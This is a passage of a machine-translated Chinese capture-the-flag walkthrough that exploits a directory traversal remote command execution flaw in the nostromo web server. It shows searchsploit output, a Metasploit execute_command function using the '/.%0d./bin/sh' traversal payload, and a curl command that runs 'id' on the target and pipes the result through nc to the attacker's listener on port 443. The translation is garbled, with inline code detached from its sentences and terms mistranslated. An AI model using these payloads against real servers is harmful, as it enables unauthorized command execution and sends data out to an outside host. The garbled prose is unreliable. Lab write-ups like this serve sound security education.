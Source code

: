 
## 壳牌作为万维数据

### 识别漏洞

`searchsploit`显示了两个潜在的诺斯特罗莫漏洞：

    root@kali# searchsploit nostromo
    -------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                      |  Path
                                                                        | (/usr/share/exploitdb/)
    -------------------------------------------------------------------- ----------------------------------------
    Nostromo - Directory Traversal Remote Command Execution (Metasploit | exploits/multiple/remote/47573.rb
    nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Executio | exploits/linux/remote/35466.sh
    -------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

有一个元浏览器（我避免）和一个外壳脚本。shell 脚本是旧版本的漏洞利用。我将快速浏览一下。它说1.9.4之前的版本会受到影响，所以不在这里。此漏洞利用的工作方式是向 发送 POST。这是基本的目录遍历，使用 （十六进制 ） 必须绕过过滤。然后，无论POST数据是什么，都会传递给。但这在这里行不通。`searchsploit -x exploits/linux/remote/35466.sh``/..%2f..%2f..%2fbin/sh``%2f``/``sh`

一些谷歌搜索揭示了数据包风暴[上无国界医生漏洞的来源](https://packetstormsecurity.com/files/155045/Nostromo-1.9.6-Directory-Traversal-Remote-Command-Execution.html)。它的目标最高为1.9.6，这是特拉弗塞克的版本。阅读源代码，我发现函数：`execute_command`

      def execute_command(cmd, opts = {})
        send_request_cgi({
          'method'  => 'POST',
          'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
          'headers' => {'Content-Length:' => '1'},
          'data'    => "echo\necho\n#{cmd} 2>&1"
          }
        )
      end
    

它正在执行与上一个漏洞利用相同的操作，只是这一次，而不是对字符进行url编码，而是在s之间有额外的（或换行符）。`/``%0d``\n``.`

### 利用可编程逻辑控制器

我会开始玩，看看我是否可以让它工作。我将从以下命令开始：.选项包括：`curl``curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d "id | nc 10.10.14.6 443"`

*   `-s`\- 静音进度条和错误消息
*   `-X POST`\- 发送开机自检请求
*   `http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh`\- 目标，通过目录遍历进行访问`/bin/sh`
*   `-d "id | nc 10.10.14.6 443"`\- 我要运行的命令，该命令会将结果发送回我的 box 端口 443 上的侦听器。`id`

当我运行它时，通过收听443，我立即得到结果：`nc`
